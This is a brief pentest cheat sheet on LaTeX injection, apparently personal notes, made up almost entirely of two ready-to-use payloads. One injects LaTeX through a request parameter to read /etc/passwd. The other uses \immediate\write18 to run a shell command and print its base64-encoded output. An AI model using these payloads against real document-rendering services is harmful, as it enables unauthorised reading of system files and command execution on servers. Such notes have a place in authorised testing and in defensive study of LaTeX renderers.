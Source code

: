 # Latex Injection

## General

* https://0day.work/hacking-with-latex/

```bash read file
content=\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file&template=test2
```

```bash execute command
\immediate\write18{ls|base64 > test.txt}
\newread\file
\openin\file=test.txt
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
```

tags: latex pentest
